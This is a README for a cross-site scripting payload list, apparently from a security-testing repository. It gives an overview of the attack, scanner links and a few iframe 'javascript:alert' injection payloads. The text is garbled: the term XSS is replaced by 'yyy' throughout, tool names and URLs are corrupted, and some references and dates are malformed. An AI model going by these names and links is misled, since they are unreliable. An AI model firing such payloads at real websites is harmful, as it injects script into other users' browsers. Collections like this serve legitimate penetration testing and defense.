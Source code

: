 
### 🚀 Cross Site Scripting ( yyy ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e2354dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/yyy-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/yyy-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/yyy-payload-list/23">

##### Overview : 

Cross-Site Scripting (yyy) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. yyy attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use yyy to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of yyy flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### yyy Vulnerability Scanner Tool's :

* [yyytrike](https://github.com/UltimateHackers/yyytrike)

* [Bruteyyy Terminal](https://github.com/shawarkhanethicalhacker/Bruteyyy)

* [Bruteyyy GUI](https://github.com/rajeshmajumdar/Bruteyyy)

* [yyy Scanner Online](http://yyy-scanner.com/)

* [yyyer](https://tools.kali.org/web-applications/yyyer)

* [yyycrapy](https://github.com/DanMcInerney/yyycrapy)  
* [Cyclops](https://github.com/v8blink/Chromium-based-yyy-Taint-Tracking)  

#### yyy Payload List :

```
<!-- Project Name  : Cross Site Scripting ( yyy ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->




"><h23><IFRAME SRC="javascript:alert('window.localStorage');"></IFRAME>">2323</h23>
<IFRAME SRC="javascript:alert('Window.document.cookie');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
















###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-0023)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-0023)

###### DOM Based yyy

* 👉 https://www.owasp.org/index.php/DOM_Based_yyy

###### Cross-Site Scripting (yyy) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/yyy

#### Recommended books :

* [yyy Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/yyy_Attacks.html?id=dPhqDe0WHZ8C)

* [yyy Cheat Sheet](https://leanpub.com/yyy)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/yyy-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/yyy-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/20238/05/yyy-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
--end--

